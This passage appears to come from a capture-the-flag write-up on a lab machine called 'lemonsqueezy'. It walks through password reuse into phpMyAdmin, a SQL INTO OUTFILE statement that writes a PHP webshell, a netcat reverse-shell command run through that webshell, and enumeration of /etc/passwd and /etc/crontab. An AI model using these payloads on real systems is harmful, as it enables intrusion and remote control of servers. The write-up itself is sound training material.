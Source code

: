 The orange user's password pops pretty quick and is shown to be `ginger`.  
Logging in with the user, they are not an admin so they cannot edit anything in the blog's template or modify any files on the server. However, they have an unsaved post called "Keep this safe!", the contents of which is `n0t1n@w0rdl1st!`. This looks like another password.

### 5. Access PHPMyAdmin
Tried the password against the "lemon" user in Wordpress, but it didn't work. However the creds `orange:n0t1n@w0rdl1st!` do provide access to phpmyadmin. From here, attempt to drop a webshell on the machine by running the following SQL.
```sql
SELECT '<?php system($_REQUEST["exec"]);?>' into outfile '/var/www/html/wordpress/pwned.php';
```
Note: Only the wordpress/ directory seems to allow files to be written.  
Now access the file and check it works.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://lemonsqueezy/wordpress/pwned.php?exec=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Great!

### 6. Get a shell
Access http://lemonsqueezy/wordpress/pwned.php?exec=nc%20-e%20/bin/sh%20192.168.34.138%209999 to spawn a shell in a Netcat listener on port 9999.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                  
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.147] 54384

whoami
www-data
python -c "import pty;pty.spawn('/bin/bash')"
www-data@lemonsqueezy:/var/www/html/wordpress$
```

### 7. Enumerate from user
Looking at /etc/passwd, there is an "orange" user with a shell.
```bash
www-data@lemonsqueezy:/var/www/html/wordpress$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
orange:x:1000:1000:orange,,,:/home/orange:/bin/bash
```
None of the passwords found previously work for them though.  
One of the next things checked is the universal crontab file.
```bash
www-data@lemonsqueezy:/var/www/html/wordpress$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
#
```